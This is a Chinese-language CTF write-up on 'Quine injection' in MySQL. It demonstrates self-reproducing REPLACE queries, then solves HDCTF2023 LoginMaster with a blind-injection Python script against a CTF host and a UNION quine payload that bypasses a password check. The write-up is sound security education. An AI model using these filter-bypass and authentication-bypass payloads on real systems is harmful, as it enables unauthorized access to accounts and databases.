 ## Quine注入

### 原理

[从三道赛题再谈Quine trick](https://www.anquanke.com/post/id/253570#h2-9)

[CTFHub_2021-第五空间智能安全大赛-Web-yet_another_mysql_injection（quine注入）](https://www.cnblogs.com/zhengna/p/15917521.html)

[yet_another_mysql_injection-Qunie](https://www.cnblogs.com/aninock/p/16467716.html)



### 实验

看着有点烧脑，其实就是套娃

我们首先尝试一下：

```sql
select REPLACE('.',char(46),'.');
```

![image-20230423153453045](https://s2.loli.net/2023/04/23/rtYn4WiP9T2D7Io.png)

输出是一个小数点 .



我们尝试将 上一段代码中的小数点 **.** 替换为：

```sql
REPLACE(".",char(46),".")   -- 这里使用双引号包裹，防止单双引号重叠
```

完整代码：

```sql
select REPLACE('REPLACE(".",char(46),".")',char(46),'REPLACE(".",char(46),".")');
```

![image-20230423153432347](https://s2.loli.net/2023/04/23/Qsg7HvIrREJfYFN.png)

乍一看好像是一样的，但是单双引号有点区别，我们需要再套`REPLACE`替换一下

```sql
select replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")');
```

![image-20230423155242323](https://s2.loli.net/2023/04/23/yma7of36rFAWenx.png)

是真的麻烦。。



基本上就是这种思路了





### 例题

#### [HDCTF2023]LoginMaster



**robots.txt泄露**

```php
<?php
function checkSql($s) 
{
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}
if ($row['password'] === $password) {
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
```

sql注入题目，username必须为admin，此处我们需要从密码着手

但是注意看，过滤了 `in` ，意味着我们不能使用 `information_schema`库查询表名，列名

我本来是想找一下除了`information_schema`库，还有哪些库能用来查询的，找了这么几个：

```sql
mysql.innodb_table_stats
sys.schema_table_statistics
sys.schema_table_statistics_with_buffer
```

这几个都能用来查询表名，此处我们可以使用下面两个，我们我们写脚本去查询表名：

```python
import requests

url = "http://node5.anna.nssctf.cn:28973"
flag = ""
s = "0123456789abcdefghijklmnopqrstuvwxyz-{}_.,"

for i in range(60):
    for j in s:
        # payload = "1'/**/or/**/if((mid((select/**/version()),{},1)/**/like/**/'{}'),1,0)#".format(i, j) # 10_2_32-mariadb
        # payload = "1'/**/or/**/if((mid((select/**/database()),{},1)/**/like/**/'{}'),1,0)#".format(i, j) # ciscn
        # payload = "1'/**/or/**/if((mid((select/**/group_concat(table_name)/**/from/**/sys.schema_table_statistics),{},1)/**/like/**/'{}'),1,0)#".format(i, j)
        payload = "1'/**/or/**/if((mid((select/**/group_concat(table_name)/**/from/**/sys.schema_table_statistics/**/where/**/table_schema/**/like/**/'ciscn'),{},1)/**/like/**/'{}'),1,0)#".format(i, j)
        data = {
            'username': 'admin',
            'password': payload
        }
        req = requests.post(url=url, data=data)
        # print(payload)
        # print(req.text)
        if 'hacker' in req.text:
            print(payload)
        if 'something' in req.text:
            print("someting")
        if 'wrong password' in req.text:
            flag += j
            print(flag)
            break
```

发现啥都查不出来。。



实际上此处为一张空表，我们需要使用另一种做法(**quine**)

重点的代码是这里：

```php
if ($row['password'] === $password) {
        die($FLAG);
    } 
```

我们除了让输入的密码与真正的密码一致外，还可以让**输入的结果与输出的结果相同**，同样可以实现获得flag



举个例子：

```sql
select replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")');
```

![image-20230423152442610](https://s2.loli.net/2023/04/23/GhX91m7y3JwE85Y.png)

输入和输出结果一致，从而可以绕过





payload：

```sql
1'UNION(SELECT(REPLACE(REPLACE('1"UNION(SELECT(REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")))#',CHAR(34),CHAR(39)),CHAR(37),'1"UNION(SELECT(REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")))#')))#
```

![image-20230423155425281](https://s2.loli.net/2023/05/27/kqJm6GTvw1L2sCU.png)

















